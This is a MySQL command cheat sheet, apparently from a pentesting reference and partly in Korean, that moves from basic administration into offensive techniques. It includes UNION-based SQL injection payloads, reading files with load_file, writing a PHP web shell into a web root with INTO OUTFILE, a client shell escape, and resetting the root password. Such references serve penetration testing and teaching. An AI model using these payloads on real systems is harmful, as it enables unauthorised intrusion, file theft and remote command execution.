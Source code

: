 ```sql
DROP DATABASE <database_name>;
```

Replace `<database_name>` with the name of the database you want to drop.

These are just a few examples of the many commands available in MySQL. By mastering these commands, you will be able to perform various tasks related to database management and manipulation.
```bash
show databases;
use <database>;
connect <database>;
show tables;
describe <table_name>;
show columns from <table>;

select version(); #version
select @@version(); #version
select user(); #User
select database(); #database name

#Get a shell with the mysql client user
\! sh

#Basic MySQLi
Union Select 1,2,3,4,group_concat(0x7c,table_name,0x7C) from information_schema.tables
Union Select 1,2,3,4,column_name from information_schema.columns where table_name="<TABLE NAME>"

#Read & Write
## Yo need FILE privilege to read & write to files.
select load_file('/var/lib/mysql-files/key.txt'); #Read file
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'

#Try to change MySQL root password
UPDATE mysql.user SET Password=PASSWORD('MyNewPass') WHERE User='root';
UPDATE mysql.user SET authentication_string=PASSWORD('MyNewPass') WHERE User='root';
FLUSH PRIVILEGES;
quit;
```

```bash
mysql -u username -p < manycommands.sql #A file with all the commands you want to execute
mysql -u root -h 127.0.0.1 -e 'show databases;'
```
### MySQL 권한 열거

MySQL 데이터베이스에 대한 권한 열거는 시스템에 대한 정보를 수집하는 데 도움이 됩니다. 다음은 MySQL 권한을 열거하는 몇 가지 방법입니다.

#### 1. SHOW GRANTS 명령어 사용

```sql
SHOW GRANTS FOR 'username'@'localhost';
```

위의 명령어를 사용하여 특정 사용자의 권한을 확인할 수 있습니다. 'username'은 확인하려는 사용자의 이름으로 대체되어야 합니다.
